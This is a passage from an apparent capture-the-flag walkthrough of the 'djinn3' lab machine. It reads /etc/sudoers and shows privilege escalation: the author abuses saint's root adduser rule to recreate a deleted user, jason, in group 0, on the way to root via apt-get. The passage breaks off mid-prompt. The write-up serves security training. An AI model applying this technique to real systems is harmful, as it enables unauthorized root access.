 We are getting close, but we still are not root because we don't have the effective UID of 0.

Let's see if we can access the Sudoers file.

```bash
kamino@djinn3:/home/saint$ cat /etc/sudoers
#
# This file MUST be edited with the 'visudo' command as root.
#
# Please consider adding local content in /etc/sudoers.d/ instead of
# directly modifying this file.
#
# See the man page for details on how to write a sudoers file.
#
Defaults        env_reset
Defaults        mail_badpass
Defaults        secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"

# Host alias specification

# User alias specification

# Cmnd alias specification

# User privilege specification
root    ALL=(ALL:ALL) ALL

# Members of the admin group may gain root privileges
%admin ALL=(ALL) ALL

# Allow members of group sudo to execute any command
%sudo   ALL=(ALL:ALL) ALL

# See sudoers(5) for more information on "#include" directives:
# If you need a huge list of used numbers please install the nmap package.

saint ALL=(root) NOPASSWD: /usr/sbin/adduser, !/usr/sbin/adduser * sudo, !/usr/sbin/adduser * admin

jason ALL=(root) PASSWD: /usr/bin/apt-get
#includedir /etc/sudoers.d

```

At the very bottom we can see the user _jason_ that has root access to the command _/usr/bin/apt-get_

Since this user is not currently in _/etc/passwd_ they must been a deleted user.

If we can _su_ to _jason_ then we can pivot to root.

Switch back to _saint_ and add _jason_ back with GID 0

```bash
kamino@djinn3:/home/saint$ exit
exit
saint@djinn3:~$ sudo /usr/sbin/adduser jason --gid 0
Adding user `jason' ...
Adding new user `jason' (1004) with group `root' ...
Creating home directory `/home/jason' ...
Copying files from `/etc/skel' ...
Enter new UNIX password:
Retype new UNIX password:
passwd: password updated successfully
Changing the user information for jason
Enter the new value, or press ENTER for the default
        Full Name []:
```